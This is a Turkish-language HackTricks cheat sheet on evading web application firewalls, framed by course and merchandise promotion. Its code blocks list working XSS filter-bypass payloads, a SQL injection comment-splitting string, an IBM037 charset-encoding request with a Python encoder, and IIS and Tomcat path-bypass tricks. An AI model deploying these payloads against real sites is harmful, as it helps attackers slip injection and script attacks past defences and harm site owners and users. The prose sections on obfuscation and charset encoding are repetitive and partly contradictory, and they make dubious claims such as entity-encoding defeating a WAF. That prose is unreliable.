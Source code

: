 # WAF Geçişi

<details>

<summary><strong>AWS hacklemeyi sıfırdan kahramanlık seviyesine öğrenin</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Kırmızı Takım Uzmanı)</strong></a><strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* **Şirketinizi HackTricks'te reklamını görmek isterseniz** veya **HackTricks'i PDF olarak indirmek isterseniz** [**ABONELİK PLANLARINA**](https://github.com/sponsors/carlospolop) göz atın!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* [**The PEASS Ailesi'ni**](https://opensea.io/collection/the-peass-family) keşfedin, özel [**NFT'lerimiz**](https://opensea.io/collection/the-peass-family) koleksiyonumuz
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)**'ı takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github depolarına **PR göndererek paylaşın**.

</details>

## Regex Geçişleri

Farklı teknikler, güvenlik duvarlarındaki regex filtrelerini geçmek için kullanılabilir. Örnekler arasında büyük/küçük harf değiştirme, satır sonu eklemek ve payload'ları kodlamak bulunur. Farklı geçiş teknikleri için [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/XSS%20Injection/README.md#filter-bypass-and-exotic-payloads) ve [OWASP](https://cheatsheetseries.owasp.org/cheatsheets/XSS\_Filter\_Evasion\_Cheat\_Sheet.html) kaynaklarına bakabilirsiniz. Aşağıdaki örnekler [bu makaleden](https://medium.com/@allypetitt/5-ways-i-bypassed-your-web-application-firewall-waf-43852a43a1c2) alınmıştır.
```bash
<sCrIpT>alert(XSS)</sCriPt> #changing the case of the tag
<<script>alert(XSS)</script> #prepending an additional "<"
<script>alert(XSS) // #removing the closing tag
<script>alert`XSS`</script> #using backticks instead of parenetheses
java%0ascript:alert(1) #using encoded newline characters
<iframe src=http://malicous.com < #double open angle brackets
<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE> #uncommon tags
<img/src=1/onerror=alert(0)> #bypass space filter by using / where a space is expected
<a aa aaa aaaa aaaaa aaaaaa aaaaaaa aaaaaaaa aaaaaaaaaa href=javascript:alert(1)>xss</a> #extra characters
Function("ale"+"rt(1)")(); #using uncommon functions besides alert, console.log, and prompt
javascript:74163166147401571561541571411447514115414516216450615176 #octal encoding
<iframe src="javascript:alert(`xss`)"> #unicode encoding
/?id=1+un/**/ion+sel/**/ect+1,2,3-- #using comments in SQL query to break up statement
new Function`alt\`6\``; #using backticks instead of parentheses
data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMik+ #base64 encoding the javascript
%26%2397;lert(1) #using HTML encoding
<a src="%0Aj%0Aa%0Av%0Aa%0As%0Ac%0Ar%0Ai%0Ap%0At%0A%3Aconfirm(XSS)"> #Using Line Feed (LF) line breaks
<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=confirm()> # use any chars that aren't letters, numbers, or encapsulation chars between event handler and equal sign (only works on Gecko engine)
```
## Karakter Seti Kodlaması

Charset encoding, web uygulamalarında kullanılan karakterlerin nasıl kodlandığını belirleyen bir mekanizmadır. Bu kodlama, web sunucusu ve tarayıcı arasında karakterlerin doğru bir şekilde iletilmesini sağlar. Ancak, bazı durumlarda karakter seti kodlaması, web uygulamalarının güvenliğini artırmak için kullanılan bir güvenlik önlemi olarak da kullanılabilir.

Web uygulamalarını hedef alan saldırganlar, karakter seti kodlamasını manipüle ederek Web Uygulama Güvenlik Duvarı'nı (WAF) atlayabilirler. Bu, saldırganların zararlı kodları veya saldırı vektörlerini gizlemelerine ve web uygulamasının güvenlik önlemlerini aşmalarına olanak tanır.

WAF bypass teknikleri arasında karakter seti kodlamasını manipüle etmek de bulunur. Saldırganlar, karakter seti kodlamasını değiştirerek zararlı kodları veya saldırı vektörlerini gizleyebilirler. Bu, WAF'ın zararlı içeriği algılamasını zorlaştırır ve saldırganlara web uygulamasına erişim sağlar.

Karakter seti kodlamasını manipüle etmek için çeşitli teknikler bulunur. Bunlar arasında karakter seti dönüşümü, karakter seti kaçışı ve karakter seti karıştırma gibi yöntemler bulunur. Saldırganlar, bu teknikleri kullanarak WAF'ı atlayabilir ve web uygulamasına zarar verebilirler.

Karakter seti kodlaması manipülasyonu, web uygulamalarının güvenlik açıklarını tespit etmek ve kapatmak için kullanılan bir pentesting tekniğidir. Bu teknik, web uygulamalarının güvenliğini artırmak ve saldırılara karşı korumak için önemlidir.
```bash
# Charset encoding
application/x-www-form-urlencoded;charset=ibm037
multipart/form-data; charset=ibm037,boundary=blah
multipart/form-data; boundary=blah; charset=ibm037

##Python code
import urllib
s = 'payload'
print(urllib.parse.quote_plus(s.encode("IBM037")))

## Request example
GET / HTTP/1.1
Host: buggy
Content-Type: application/x-www-form-urlencoded; charset=ibm500
Content-Length: 61

%86%89%93%85%95%81%94%85=KKaKKa%C6%D3%C1%C7K%A3%A7%A3&x=L%A7n
```
## Obfuskasyon

Obfuskasyon, saldırganların saldırılarını tespit etmek ve engellemek için kullanılan Web Uygulama Güvenlik Duvarı'nı (WAF) atlatmak için kullanılan bir tekniktir. Obfuskasyon, saldırıyı gizlemek veya saldırıyı WAF tarafından algılanmasını zorlaştırmak için kullanılan çeşitli yöntemleri içerir.

### Karakter Kodlaması

Karakter kodlaması, saldırıyı gizlemek için saldırı dizelerini farklı karakterlerle değiştirme işlemidir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır. Örneğin, `<script>` ifadesini `&lt;script&gt;` olarak kodlamak, WAF'ın bu ifadeyi algılamasını engeller.

### Karakter Dizisi Birleştirme

Karakter dizisi birleştirme, saldırı dizelerini birden çok karakter dizisine bölmek ve ardından bu karakter dizilerini birleştirerek saldırıyı gerçekleştirmektir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır çünkü saldırı dizisi parçalara ayrıldığı için bütün olarak algılanmaz.

### Büyük/Küçük Harf Değiştirme

Büyük/küçük harf değiştirme, saldırı dizelerindeki harfleri büyük veya küçük harflerle değiştirme işlemidir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır çünkü harflerin büyük veya küçük olması WAF tarafından farklı şekilde işlenir.

### Boşluk Ekleme

Boşluk ekleme, saldırı dizelerine ekstra boşluk karakterleri eklemektir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır çünkü eklenen boşluk karakterleri saldırıyı değiştirir ve WAF'ın saldırıyı tanımasını engeller.

### Karakter Dizisi Karıştırma

Karakter dizisi karıştırma, saldırı dizelerindeki karakterleri rastgele sıralamak veya yerlerini değiştirmektir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır çünkü saldırı dizisi düzeni değiştiği için WAF tarafından tanınmaz.

### HTML Etiketi Ekleme

HTML etiketi ekleme, saldırı dizelerine HTML etiketleri eklemektir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır çünkü eklenen HTML etiketleri saldırıyı değiştirir ve WAF'ın saldırıyı tanımasını engeller.

### URL Kodlaması

URL kodlaması, saldırı dizelerini URL kodlaması kullanarak değiştirmektir. Bu, WAF'ın saldırıyı algılamasını zorlaştırır çünkü URL kodlaması kullanılan saldırı dizisi WAF tarafından farklı şekilde işlenir.
```bash
# IIS, ASP Clasic
<%s%cr%u0131pt> == <script>

# Path blacklist bypass - Tomcat
/path1/path2/ == ;/path1;foo/path2;bar/;
```
## Unicode Uyumluluğu

Unicode normalizasyonunun uygulamasına bağlı olarak (daha fazla bilgi için [buraya](https://jlajara.gitlab.io/Bypass\_WAF\_Unicode)), Unicode uyumluluğunu paylaşan karakterler WAF'ı atlayabilir ve amaçlanan yükü çalıştırabilir. Uyumlu karakterler [burada](https://www.compart.com/en/unicode) bulunabilir.

### Örnek
```bash
# under the NFKD normalization algorithm, the characters on the left translate
# to the XSS payload on the right
＜img src⁼p onerror⁼＇prompt⁽1⁾＇﹥  --> ＜img src=p onerror='prompt(1)'>
```
## Boyut Sınırlarını Aşma

Bulut tabanlı WAF'lerde, yük boyutu X'ten büyükse, istek WAF tarafından kontrol edilmez. Bunları atlamak için sadece bunu kullanabilirsiniz.

### IP Dönüşümü

* [https://github.com/rootcathacking/catspin](https://github.com/rootcathacking/catspin)

<details>

<summary><strong>htARTE (HackTricks AWS Red Team Expert)</strong> ile sıfırdan kahraman olmak için AWS hackleme öğrenin<strong>!</strong></summary>

HackTricks'i desteklemenin diğer yolları:

* Şirketinizi HackTricks'te **reklamınızı görmek** veya HackTricks'i **PDF olarak indirmek** için [**ABONELİK PLANLARINI**](https://github.com/sponsors/carlospolop) kontrol edin!
* [**Resmi PEASS & HackTricks ürünlerini**](https://peass.creator-spring.com) edinin
* Özel [**NFT'lerden**](https://opensea.io/collection/the-peass-family) oluşan koleksiyonumuz [**The PEASS Family**](https://opensea.io/collection/the-peass-family)'yi keşfedin
* 💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) **katılın** veya **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/hacktricks_live)'u **takip edin**.
* **Hacking hilelerinizi** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna **PR göndererek** paylaşın.

</details>
